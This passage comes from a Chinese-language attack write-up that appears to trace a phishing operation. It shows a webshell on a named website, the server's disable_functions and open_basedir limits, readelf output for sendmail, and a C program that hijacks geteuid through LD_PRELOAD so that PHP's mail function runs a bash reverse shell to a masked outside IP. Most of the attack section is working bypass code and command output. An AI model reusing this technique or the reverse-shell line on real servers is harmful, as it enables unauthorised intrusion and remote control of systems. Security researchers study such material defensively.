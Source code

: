 ![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548385795_5c4a7e037614e.png!small)

### 4.3 提权

通过webshell得到了具体系统信息下一步尝试提权目的是获得Apache的web访问日志。

**4.3.1 突破　disable_functions**

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548385812_5c4a7e1464342.png!small)

测试发现目标限制跨目录open_basedir并禁用了命令执行函数导致WebShell权限下无法跨目录访问也无法执行命令。

1. `disable_functionsescapeshellarg,escapeshellcmd,exec,passthru,proc_close,proc_get_status,proc_nice,proc_open,proc_terminate,shell_exec,system,popen,pcntl_exec`
2. 
3. `open_basedir /storage/www/mirohaviar.sk/:/storage/www-include/:/usr/share/php5/:/usr/share/file/:/usr/share/pear/:/tmp/`

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548385866_5c4a7e4a4e8c8.png!small)

> 突破的手段很多这里我利用LD_PRELOAD动态链接来劫持php的mail函数突破disable_functions执行系统命令。

查看sendmail函数在执行过程中动态调用哪些标准库函数。

1. `www-data@m7web1:/tmp$ readelf -Ws /usr/sbin/sendmail`
2. `Symbol table '.dynsym' contains 420 entries:`
3. `Num: Value Size Type Bind Vis Ndx Name`
4. `0: 0000000000000000 0 NOTYPE LOCAL DEFAULT UND`
5. `1: 0000000000000000 0 FUNC GLOBAL DEFAULT UND __printf_chk@GLIBC_2.3.4 (2)`
6. `2: 0000000000000000 0 FUNC GLOBAL DEFAULT UND getegid@GLIBC_2.2.5 (3)`
7. `3: 0000000000000000 0 FUNC GLOBAL DEFAULT UND dane_raw_tlsa@DANE_0_0 (4)`
8. `4: 0000000000000000 0 FUNC GLOBAL DEFAULT UND gnutls_ocsp_resp_print@GNUTLS_3_4 (5)`
9. `5: 0000000000000000 0 FUNC GLOBAL DEFAULT UND gnutls_x509_crt_get_serial@GNUTLS_3_4 (5)`
10. `6: 0000000000000000 0 FUNC GLOBAL DEFAULT UND __errno_location@GLIBC_2.2.5 (3)`
11. `7: 0000000000000000 0 FUNC GLOBAL DEFAULT UND gnutls_db_set_cache_expiration@GNUTLS_3_4 (5)`
12. `8: 0000000000000000 0 FUNC GLOBAL DEFAULT UND sendto@GLIBC_2.2.5 (3)`
13. 
14. `......`
15. 
16. `76: 0000000000000000 0 FUNC GLOBAL DEFAULT UND getuid@GLIBC_2.2.5 (3)`
17. `77: 0000000000000000 0 FUNC GLOBAL DEFAULT UND send@GLIBC_2.2.5 (3)`

从中选取geteuid函数进行测试编写动态链接程序bypass.c

1. `#include<stdlib.h>`
2. `#include <stdio.h>`
3. `#include<string.h>`
4. `void payload() {`
5. `system("bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/999 0>&1");`
6. `}`
7. `int geteuid() {`
8. `if(getenv("LD_PRELOAD") == NULL) { return 0; }`
9. `unsetenv("LD_PRELOAD");`
10. `payload();`
11. `}`
